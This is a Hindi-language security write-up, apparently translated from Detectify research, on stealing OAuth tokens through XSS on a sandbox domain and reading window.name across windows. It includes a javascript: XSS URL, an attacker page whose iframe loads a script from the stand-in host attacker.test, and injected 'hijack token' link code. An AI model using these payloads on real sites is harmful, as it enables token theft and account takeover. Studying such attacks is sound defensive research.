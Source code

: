 ## गैजेट 2: URL प्राप्त करने वाले सैंडबॉक्स/तृतीय-पक्ष डोमेन पर XSS

![](https://labs.detectify.com/wp-content/uploads/2022/06/gadget-2-1024x582.png)

&#x20;

## **गैजेट 2: उदाहरण 1, सैंडबॉक्स आइफ्रेम से window.name चोरी करना**

इसमें **आइफ्रेम** था जो **OAuth-डांस का अंत होने वाले पृष्ठ** पर लोड होता था। **आइफ्रेम** का **नाम** एक **JSON-स्ट्रिंगीकृत संस्करण** था जो `window.location` ऑब्जेक्ट का था। यह डेटा क्रॉस-डोमेन पर डेटा स्थानांतरित करने का एक पुराना तरीका है, क्योंकि आइफ्रेम में पेज अपने माता-पिता द्वारा सेट किए गए `window.name` को प्राप्त कर सकता है:
```javascript
i = document.createElement('iframe');
i.name = JSON.stringify(window.location)
i.srcdoc = '<script>console.log("my name is: " + window.name)</script>';
document.body.appendChild(i)
```
![](https://labs.detectify.com/wp-content/uploads/2022/06/gadget2-example2.png)

आईफ्रेम में लोड किए गए डोमेन में एक सरल XSS भी था:
```
https://examplesandbox.com/embed_iframe?src=javascript:alert(1)
```
### हमला

यदि आपके पास एक डोमेन पर **XSS** है, तो यह विंडो फिर उसी मूल के अन्य विंडों तक पहुंच सकती है यदि विंडों के बीच माता / पुत्र / खोलने वाले **संबंध** होते हैं।

इसका मतलब है कि एक हमलावर XSS का उपयोग करके एक नया टैब लोड करने के लिए क्राफ्टेड **OAuth लिंक** लोड करने के लिए एक आक्रमणकारी को संभव होगा जो **टोकन के साथ पथ में समाप्त होगा**। फिर, XSS उत्पन्न हुए पृष्ठ से यह संभव होगा कि आईफ्रेम का नाम पढ़ा जा सके क्योंकि इसमें आईफ्रेम के माता पृष्ठ पर एक खोलने वाला होता है और इसे निकाला जा सकता है।

अधिक विशिष्ट रूप से:

1. एक दुष्ट पृष्ठ बनाएं जिसमें XSS के साथ मेरे अपने स्क्रिप्ट को लोड करने वाला एक आईफ्रेम शामिल है:

```html
<div id="leak"><iframe src="https://examplesandbox.com/embed_iframe?src=javascript:
x=createElement('script'),
x.src='//attacker.test/inject.js',
document.body.appendChild(x);"
style="border:0;width:500px;height:500px"></iframe></div>
```
2. सैंडबॉक्स में लोड होने वाले मेरे स्क्रिप्ट में, मैंने पीड़ित के लिए उपयोग करने के लिए लिंक के साथ सामग्री को बदल दिया:

```javascript
document.body.innerHTML =
'<a href="#" onclick="
b=window.open("https://accounts.google.com/o/oauth2/auth/oauthchooseaccount?...");">
Click here to hijack token</a>';
```
